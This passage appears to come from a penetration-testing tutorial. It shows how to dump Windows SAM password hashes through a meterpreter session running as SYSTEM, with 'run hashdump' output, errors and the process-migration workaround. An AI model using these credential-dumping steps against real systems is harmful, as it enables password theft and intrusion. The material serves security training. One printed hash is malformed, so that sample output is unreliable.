 Let us start with one of the easiest techniques: **recovering the password hash**
1. Password Hash
  We are assuming that we already have a meterpreter session on the target machine (Windows 8.1) and that the session is running with the highest privileges (`SYSTEM`)

  The easiest way to dump the hashes from the [SAM Database][https://technet.microsoft.com/en-us/library/cc756748(v=ws.10).aspx] is by running the command `run hashdump`:
    ```
    meterpreter > run hashdump
    [*] Obtaining the boot key...
    [*] Calculating the hboot key using SYSKEY e9611aec85bc393d8a603ad3a7528e52
    [*] Obtaining the user list and keys..
    [*] Decrypting user keys...
    [*] Dumping password hints...

    No user with password hints on this system

    [*] Dumping password hashes..

    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d13ae931b73c59d7e0c089c0:::
    els:501:aad3b435b51404eeaad3b435b51404ee:d9e6bffa796d2688ac52a49b74132a4f:::
    Guest:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16cfe0d16ae931b73c59d7e0c089c0:::
    ```

    As you have noticed we recovered all accounts and password hashes from the  target machine (Windows 8.1) by running as `SYSTEM`.

    Notice that depending on the OS version, we may be able to gather this information with even lower privileges, such as administrator accounts.

      In the following screenshot, we can see that running the same command with administrative privileges does not work.
      Indeed we get `Access denied` error.
        ```
        [*] Obtaining the boot key...
        [*] Calculating the hboot key using SYSKEY a6e1086fb186a10be86a80....
        [-] Meterpreter Exception: Rex::Post::Meterpreter::RequestError stdapi_registry_open_key: Operation failed: Access is denied
        [-] This script requires the use of a SYSTEM user context (hint: migrate service process)
        ```

      As metasploit suggests, we can try to migrate to a service process and re-run the command.

    Note that if you try running `hashdump` directly, sometimes you may get the message `priv_passwd_get_sam_hashes: Operation failed:The parameter is incorrect`.
    This happens even with `NT_AUTHORITY\SYSTEM` privileges:
      ```
      meterpreter > hashdump
      [-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
      meterpreter >
      ```

    To bypass this error you have 2 options:
      1. Execute `run hashdump`; or
      2. Migrate to different process
